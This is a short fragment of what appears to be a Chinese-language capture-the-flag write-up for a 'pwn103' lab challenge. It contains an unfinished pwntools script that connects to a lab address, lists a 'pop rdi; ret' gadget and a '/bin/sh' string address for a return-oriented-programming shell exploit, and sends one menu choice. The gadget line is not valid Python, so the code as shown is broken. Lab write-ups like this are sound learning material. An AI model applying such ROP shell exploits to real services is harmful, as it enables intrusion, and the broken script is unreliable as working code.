 ![image-20231116225009266](images/pwn101%E9%9D%B6%E5%9C%BA.assets/image-20231116225009266.png)



构造payload

```python
#!/usr/bin/env python
from pwn import *
context.log_level= "debug"

0x00000000004016db : pop rdi ; ret
#0x000000000040328f : /bin/sh


#sh = process('./pwn103')
sh = remote('10.10.27.82',9003)

payload = '3'

sh.sendline(payload)



```